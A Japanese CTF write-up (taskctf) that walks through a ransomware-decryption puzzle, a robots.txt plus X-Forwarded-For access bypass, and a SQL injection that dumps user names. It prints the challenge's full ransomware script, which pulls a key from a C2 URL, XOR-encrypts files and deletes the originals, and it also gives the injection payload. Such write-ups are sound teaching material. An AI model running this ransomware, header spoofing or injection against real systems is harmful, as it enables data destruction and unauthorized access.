

29位で終わりだった（来年もあれば全完したい）。

解けたもの、途中までやったものを書く。

## misc

### ransomeware

> 友人が誕生日祝いで送ってきたスクリプトを実行したら、お手製ランサムで手元のFlagを暗号化されてしまいました。どうにかして復元できないでしょうか？

暗号文は`䔘䔍䔟䔇䔏䔘䔊䔗䔔䕜䔞䔳䕝䔟䔳䔉䕘䔟䔕䔳䕛䕜䔳䕝䔁䔜䔀䔉䔁䔉䔂䕛䔑䕦`で、コレを複合する。

暗号化処理がコレ。

```shell
#!/bin/sh
echo "IyEvdXNyL2Jpbi9lbnYgcHl0aG9uMwoKaW1wb3J0IHJlcXVlc3RzCmltcG9ydCBnbG9iCmltcG9ydCBvcwoKQzIgPSAiaHR0cHM6Ly9jMi50YXNrNDIzMy5kZXYvYkQ3YkI3cGM1N2QyIgoKZGVmIG1haW4oKToKICAgICMgZ2V0IGEga2V5IGZyb20gYSBjMiBzZXJ2ZXIKICAgIGtleSA9IGludChyZXF1ZXN0cy5nZXQoQzIpLnRleHQpCgogICAgZmlsZXMgPSBnbG9iLmdsb2IoJy4vKicpCiAgICAjIGFkZGVkIGZvciBDVEY6KQogICAgYXNzZXJ0ICIuL3Rhc2tjdGZfZmxhZy50eHQiIGluIGZpbGVzCgogICAgIyBlbmNyeXB0IGFsbCBmaWxlcwogICAgZm9yIGZpbGUgaW4gZmlsZXM6CiAgICAgICAgIyBpZ25vcmUgdGhpcyBzY3JpcHQgYW5kIGRpcmVjdG9yaWVzCiAgICAgICAgaWYgb3MucGF0aC5iYXNlbmFtZShmaWxlKSA9PSBvcy5wYXRoLmJhc2VuYW1lKF9fZmlsZV9fKToKICAgICAgICAgICAgY29udGludWUKICAgICAgICBpZiBub3Qgb3MucGF0aC5pc2ZpbGUoZmlsZSk6CiAgICAgICAgICAgIGNvbnRpbnVlCgogICAgICAgICMgZW5jcnlwdCBhIHRhcmdldCBmaWxlCiAgICAgICAgZGF0YSA9IE5vbmUKICAgICAgICB3aXRoIG9wZW4oZmlsZSwgJ3InKSBhcyBmOgogICAgICAgICAgICBkYXRhID0gZi5yZWFkKCkgICAgICAgIAogICAgICAgIGVuY3J5cHRlZCA9ICIiCiAgICAgICAgZm9yIGNoIGluIGRhdGE6CiAgICAgICAgICAgIGVuY3J5cHRlZCArPSBjaHIob3JkKGNoKSBeIGtleSkKICAgICAgICB3aXRoIG9wZW4oZiJ7ZmlsZX0uZW5jcnlwdGVkIiwgJ3cnKSBhcyBmOgogICAgICAgICAgICBmLndyaXRlKGVuY3J5cHRlZCkKICAgICAgICAKICAgICAgICAjIGRlbGV0ZSB0aGUgcmF3IGZpbGUKICAgICAgICBvcy5yZW1vdmUoZmlsZSkKICAgIAogICAgcHJpbnQoJ1wwMzNbMzFtISEhIFlPVVIgRkxBRyBIQVMgQkVFTiBFTkNSWVBURUQgISEhXDAzM1swbScpCiAgICBwcmludCgnXDAzM1szMW1Zb3UgaGF2ZSB0d28gY2hvaWNlcy4gVHJlYXQgbWUgd2hlbiBJIHNlZSB5b3UgbmV4dCB0aW1lLCBvciBkZWNyeXB0IGl0IHlvdXJzZWxmIGlmIHlvdSBjYW4gbG9sLlwwMzNbMG0nKQoKaWYgX19uYW1lX18gPT0gIl9fbWFpbl9fIjoKICAgIG1haW4oKQo=" | base64 -d | python3
```

base64部分だけ抜き出すとこうなる。

```python
#!/usr/bin/env python3

import requests
import glob
import os

C2 = "https://c2.task4233.dev/bD7bB7pc57d2"

def main():
    # get a key from a c2 server
    key = int(requests.get(C2).text)

    files = glob.glob('./*')
    # added for CTF:)
    assert "./taskctf_flag.txt" in files

    # encrypt all files
    for file in files:
        # ignore this script and directories
        if os.path.basename(file) == os.path.basename(__file__):
            continue
        if not os.path.isfile(file):
            continue

        # encrypt a target file
        data = None
        with open(file, 'r') as f:
            data = f.read()
        encrypted = ""
        for ch in data:
            encrypted += chr(ord(ch) ^ key)
        with open(f"{file}.encrypted", 'w') as f:
            f.write(encrypted)

        # delete the raw file
        os.remove(file)

    print('\033[31m!!! YOUR FLAG HAS BEEN ENCRYPTED !!!\033[0m')
    print('\033[31mYou have two choices. Treat me when I see you next time, or decrypt it yourself if you can lol.\033[0m')

if __name__ == "__main__":
    main()
```

`chr(ord(ch) ^ key)`できているので、keyは数値っぽい。
原文に`taskctf{`があることは問題文から想像できたので、XORで戻した文字列に`taskctf{`が出現したところが答えになる。

```python
f = open("taskctf_flag.txt.encrypted")
encrypted = f.read()

key = 0
encrypted_arr = [ord(x) for x in encrypted]

while True:
    decrypted = ""

    for c in encrypted_arr:
        decrypted += chr(c ^ key)

    key += 1

    if decrypted.__contains__("taskctf"):
        print(key)
        print(decrypted)
        break
```

### anti_detection

> Flagを取得するための実行ファイルとアップローダを用意しました。 ただし、この実行ファイルをそのままアップロードすると、防御システムに類似ファイルと検知されて実行されない仕組みになっています。
>
> そこで、検知システムをすり抜ける実行ファイルを作ってFlagを取得してください！

ghidraにぶち込んで、似たようなコードを送りつけたりしてた。
方向性は（たぶん）あってたものの、回答まで至らず。

## web

### robots

> Flagが漏洩してるって聞いたけど、本当ですか？？？

`http://34.82.208.2:31481/`をみるとrobotsとか書いてある。

robots.txtを見る + 脳死で`X-Forwarded-For`をつけたらいけた。

```
$ python
Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> requests.get("http://34.82.208.2:31481/robots.txt").text
'User-Agent: *\nDisallow: /admin/flag'
>>> requests.get("http://34.82.208.2:31481/admin/flag").text
... <h1>401 Unauthorized</h1>\n        <p>116.82.127.225 is not internal IP address :(</p>\n...
>>> requests.get("http://34.82.208.2:31481/admin/flag", headers={"X-Forwarded-For": "127.0.0.1"}).text
... taskctf{th15_c0ntr0l_y0u_th1nk_y0u_h4ve_1s_4n_1llu5i0n} ...
```

### first

SQLiがあるので、なんとかして100番目のユーザーを見つける。

フォームに

```
%' or 1=1 order by users.id--
```

を入れると、全件`user.id`でソートされた状態で出てくるので、ブラウザ上で全部コピーして、Vimで名前以外全消ししてから（`:%s/[^a-zA-Z_]*//g`）テキストファイルに入れて、Pythonで処理した。

```
$ python
Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> names = list(filter(None, [l.strip("\n") for l in open("names.txt", "r")]))
>>> current_user = ""
>>> count = 0
>>> for i in names:
...     if current_user == i:
...         continue
...     else:
...         current_user = i
...         count += 1
...     if count == 100:
...         print("----------------- " + current_user)
...         break
----------------- Satomi_Kato
```

## osint

GoogleLens。Google Mapで調べるという発想になれなかった。
